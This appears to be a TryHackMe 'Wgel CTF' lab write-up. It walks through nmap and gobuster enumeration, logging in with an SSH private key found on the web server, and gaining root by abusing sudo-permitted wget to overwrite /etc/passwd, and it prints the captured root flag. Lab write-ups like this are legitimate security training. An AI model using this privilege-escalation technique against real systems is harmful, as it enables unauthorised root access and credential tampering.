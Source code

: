 # TryHackMe: Wgel CTF

> Can you exfiltrate the root flag?

This is the IP I got:

```
10.10.223.109
```

I first ran an NMAP scan:

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-02 17:42 BST
Nmap scan report for 10.10.223.109
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94961b66801b7648682d14b59a01aaaa (RSA)
|   256 18f710cc5f40f6cf92f86916e248f438 (ECDSA)
|_  256 b90b972e459bf32a4b11c7831033e0ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Aggressive OS guesses: Linux 5.4 (96%), Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.10 (92%), Linux 3.12 (92%), Linux 3.19 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.56 seconds
```

So I decided to focus on this web service first. It looked like the default Ubuntu/Apache landing page, but there seemed to be parts missing. I found the following interesting comments:

![](comment1.png)
![](comment2.png)

This still didn't give me much so I also started running gobuster.

```
┌─[✗]─[parrot@parrot]─[~/Desktop/wgel-ctf]
└──╼ $gobuster dir -u http://$IP -w ../directory-list-2.3-medium.txt -x php,md,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.223.109
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                ../directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,md,txt
[+] Timeout:                 10s
===============================================================
2023/08/02 17:50:18 Starting gobuster in directory enumeration mode
===============================================================
/sitemap              (Status: 301) [Size: 316] [--> http://10.10.223.109/sitemap/]
```

This `/sitemap` seemed like a complete website, so I started running gobuster on this directory too. Using the directory wordlist, I didn't find anything. However, I tried a second wordlist with Apache-specific names, and found a file called `/sitemap/ssh/id_rsa`. I downloaded it to `id_rsa` here.


## User flag

I was able to log in using this key file, and retrieve the first flag.

![](jessie-shell.png)


## Root flag

Looks like I can run `wget` as root:

```
jessie@CorpOne:~$ sudo -l
 Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

If we control wget, I think we can use it to overwrite `/etc/passwd` and set a new root password.

![](new-passwd-file.png)

```
jessie@CorpOne:/etc$ su
Password: 

root@CorpOne:/etc# cat /root/root_flag.txt 
b1b968b37519ad1daa6408188649263d
```




